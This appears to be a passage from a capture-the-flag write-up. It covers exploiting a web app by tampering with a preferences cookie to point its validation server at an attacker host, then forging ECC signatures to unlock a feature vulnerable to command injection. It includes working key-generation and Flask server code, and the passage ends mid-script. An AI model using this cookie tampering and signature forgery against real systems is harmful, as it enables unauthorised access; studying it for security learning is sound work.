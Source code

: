 It's a simple word-counting feature that takes user input and passes it directly to a command without sanitisation.

### Exploit

Based on our initial review of the application, we can outline the following plan of action:

-   Set `debug=true`, so the server will attempt to read the `validation_server` from the `preferences` cookie.
-   Base64 decode the `preferences` cookie, add `validation_server: https://ATTACKER_SERVER`, and re-encode.
-   Generate a public/private keypair on the attacker server.
-   Configure the attacker server to sign an arbitrary date with the private key and return the corresponding public key when the `/pubkey` endpoint is requested.
-   Once granted access to the new feature, probe for command injection vulnerabilities.

#### Forging a signature

Let's start by configuring the attacker server. We can generate a keypair with the following script.

```python
from Crypto.PublicKey import ECC

key = ECC.generate(curve='P-256')

with open('pubkey', 'wb') as f:
    f.write(key.public_key().export_key(format='PEM').encode('utf-8'))

with open('privkey', 'wb') as f:
    f.write(key.export_key(format='PEM').encode('utf-8'))
```

We configure `server.py` to do the same thing as the real `validation_server`, _except_ that the returned date will be 7+ days in the future.

```python
from flask import Flask, jsonify
import time
from Crypto.Hash import SHA256
from Crypto.PublicKey import ECC
from Crypto.Signature import DSS

app = Flask(__name__)

def load_private_key():
    with open('privkey', 'rb') as f:
        return ECC.import_key(f.read())

key = load_private_key()

def generate_date_and_sign(date):
    h = SHA256.new(date.encode('utf-8'))
    signer = DSS.new(key, 'fips-186-3')
    signature = signer.sign(h)
    return date, signature.hex()

@app.route('/pubkey', methods=['GET'])
def get_pubkey():
    return key.public_key().export_key(format='PEM'), 200, {'Content-Type': 'text/plain; charset=utf-8'}

@app.route('/', methods=['GET'])
def generate_signed_date():
    date = int(time.time()) + 14 * 24 * 60 * 60
    date, signature = generate_date_and_sign(str(date))

```